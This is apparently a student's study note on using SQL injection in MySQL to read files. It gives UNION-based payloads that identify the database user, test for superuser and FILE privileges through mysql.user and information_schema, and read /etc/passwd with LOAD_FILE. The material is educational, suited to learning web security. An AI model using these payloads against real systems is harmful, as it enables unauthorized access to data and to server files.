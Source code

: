 # File Reading/Writing
Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files.

<u>DB User</u>
First, we have to determine which user we are within the database. While we do not necessarily need **database administrator** (DBA) privileges to read data, this is becoming *more required in modern DBMSes*, as only DBA are given such privileges.
```sql
-- To be able to find our current DB user, we can use any of the following queries
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our UNION injection payload will be as follows:
```sql
cn' UNION SELECT 1, user(), 3, 4-- 
-- OR
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```

Test for **Super admin privileges** :-
```sql
SELECT super_priv FROM mysql.user

-- Union Query
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user;-- 

-- If we had many users within the DBMS
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="[username]"-- -
```

![[Pasted image 20231006170123.jpg]]
The query returns **Y**, which means **YES**, indicating superuser privileges.

We can also dump other privileges we have directly from the schema, with the following query:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 

-- To only show current user priviliges
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
```
![[Pasted image 20231006170450.jpg]]

We see that the **FILE** privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

### File Reading
```sql
SELECT LOAD_FILE('/etc/passwd');

-- Union Operator
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
